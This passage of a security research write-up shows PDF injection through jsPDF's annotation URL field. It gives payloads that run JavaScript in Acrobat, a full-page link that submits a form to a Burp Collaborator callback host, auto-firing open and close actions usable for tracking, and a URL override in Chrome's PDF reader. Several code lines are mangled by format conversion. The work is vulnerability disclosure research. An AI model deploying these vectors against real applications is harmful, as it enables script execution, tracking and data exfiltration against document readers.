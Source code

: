 So I generated a PDF using their API and injected PDF code into the url property:

`var doc = new jsPDF();`  \
`doc.text(20, 20, 'Hello world!');`  \
`doc.addPage('a6','l');`  \
`doc.createAnnotation({bounds:`  \
`` {x:0,y:10,w:200,h:200},type:'link',url:` ``  \
`/blah)>>/A<</S/JavaScript/JS(app.alert(1);)/Type/Action/F 0/(`  \
`` `}); ``

I reduced the vector by removing the type entries of the dictionary and the unneeded F entry. I then left a dangling parenthesis that would be closed by the existing one. Reducing the size of the injection is important because the web application you are injecting to might only allow a limited amount of characters.`/blah)>>/A<</S/JavaScript/JS(app.alert(1)`

I then worked out that it was possible to reduce the vector even further! Acrobat would allow a URI and a JavaScript entry within one annotation action and would happily execute the JavaScript:`/)/S/JavaScript/JS(app.alert(1)`

Further research revealed that you can also inject multiple annotations. This means that instead of just injecting an action, you could break out of the annotation and define your own rect coordinates to choose which section of the document would be clickable. Using this technique, I was able to make the entire document clickable. `/) >> >>`  \
`<</Type /Annot /Subtype /Link /Rect [0.00 813.54 566.93 -298.27] /Border [0 0`  \
`0] /A <</S/SubmitForm/Flags 0/F(https://your-id.burpcollaborator.net`

## Executing annotations without interaction

So far, the vectors I've demonstrated require a click to activate the action from the annotation. Typically, James asked the question "Can we execute automatically?". I looked through the PDF specification and noticed some interesting features of annotations:

"The **PV** and **PI** entries allow a distinction between pages that are open and pages that are visible. At any one time, only a single page is considered open in the viewer application, while more than one page may be visible, depending on the page layout."

We can add the PV entry to the dictionary and the annotation will fire on Acrobat automatically! Not only that, but we can also execute a payload automatically when the PDF document is closed using the PC entry. An attacker could track you when you open the PDF and close it.

Here's how to execute automatically from an annotation:`` `var doc = new jsPDF(); ``  \
`doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/)

> > > > <\</Subtype /Screen /Rect \[0 0 900 900] /AA <\</PV <\</S/JavaScript/JS(app.alert(1))>>/(\`});\
> > > > doc.text(20, 20, 'Auto execute');\`\`

When you close the PDF, this annotation will fire:`var doc = new jsPDF();`  \
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/) >> >>``  \
``<</Subtype /Screen /Rect [0 0 900 900] /AA <</PC <</S/JavaScript/JS(app.alert(1))>>/(`});``  \
`doc.text(20, 20, 'Close me');`

## Chrome

I've talked a lot about Acrobat but what about PDFium (Chrome's PDF reader)? Chrome is tricky; the attack surface is much smaller as its JavaScript support is more limited than Acrobat's. The first thing I noticed was that JavaScript wasn't being executed in annotations at all, so my proof of concepts weren't working. In order to get the vectors working in Chrome, I needed to at least execute JavaScript inside annotations. First though, I decided to try and overwrite a URL in an annotation. This was pretty easy. I could use the base injection I came up with before and simply inject another action with a URI entry that would overwrite the existing URL:`var doc = new jsPDF();`  \
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/blah)>>/A<</S/URI/URI(https://portswigger.net)``  \
``/Type/Action>>/F 0>>(`});``  \
`doc.text(20, 20, 'Test text');`
